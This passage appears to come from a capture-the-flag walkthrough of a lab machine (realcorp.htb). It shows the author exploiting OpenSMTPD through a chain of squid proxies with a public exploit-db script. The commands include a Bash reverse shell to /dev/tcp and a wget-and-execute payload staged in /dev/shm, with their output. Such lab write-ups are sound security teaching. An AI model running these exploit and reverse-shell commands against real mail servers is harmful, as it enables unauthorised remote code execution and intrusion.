 

I'll enter `QUIT` to exit:



    QUIT
    221 2.0.0 Bye



#### Script

To save myself the trouble of typing all that, I'll grab the
[exploit](https://www.exploit-db.com/download/47984) and replace `root`
with `j.nakazawa@realcorp.htb`. It runs:



    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf python opensmtp-exploit.py 10.241.251.113 25 'ping -c 1 10.10.14.7'
    \[proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
    [*] OpenSMTPD detected
    [*] Connected, sending payload
    [*] Payload sent
    [*] Done



And produces the same result:



    17:51:41.139562 IP 10.10.10.224 > 10.10.14.7: ICMP echo request, id 31, seq 1, length 64
    17:51:41.139584 IP 10.10.14.7 > 10.10.10.224: ICMP echo reply, id 31, seq 1, length 64



### Shell

After futzing with different reverse shells for a while, I went back to
just requesting a shell and then passing it to Bash. `curl` didn't reach
back to my host, but `wget` did. I wrote a simple `shell.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.7/443 0>&1



I'll start a Python web server and `nc` on 443. Now `wget` will get it
and save it in `/dev/shm`, and then run it:



    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf python opensmtp-exploit.py 10.241.251.113 25 'wget 10.10.14.7/shell.sh -O /dev/shm/.0xdf.sh; bash /dev/shm/.0xdf.sh'
    [proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
    [*] OpenSMTPD detected
    [*] Connected, sending payload
    [*] Payload sent
    [*] Done

